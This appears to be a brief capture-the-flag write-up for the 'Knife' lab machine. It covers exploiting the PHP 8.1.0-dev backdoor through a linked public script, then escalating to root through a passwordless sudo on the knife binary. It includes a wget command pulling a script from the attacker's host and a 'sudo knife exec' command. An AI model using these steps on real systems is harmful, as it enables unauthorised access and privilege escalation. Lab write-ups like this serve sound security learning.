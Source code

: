 # Knife

# PHP-8.1.0-dev Backdoor
Server has a vulnerabilty because of backdoor set by the hacker in the dev branch of php.  
Additional info can be found in this script: https://dl.packetstormsecurity.net/2105-exploits/php_8.1.0-dev.py.txt  
And that's what I've used.

# user.txt
Modified script for my needs (removed extra code and made infinite loop of commands) then read the `/home/james/user.txt`

# root.txt
Found `/usr/bin/knife` could be run with `sudo` with *no password*.   
Created a script called `read.rb` (see in this directory) that reads `/root/root.txt` and then downloaded it with `wget` to the victim machine:
```bash
wget http://my-ip:8000/read.rb -O /home/james/read.rb
```
I could've done this in smarted way, but let's leave this as it is.  
Then ran this:
````bash
sudo knife exec /home/james/read.rb
> *root flag*
```
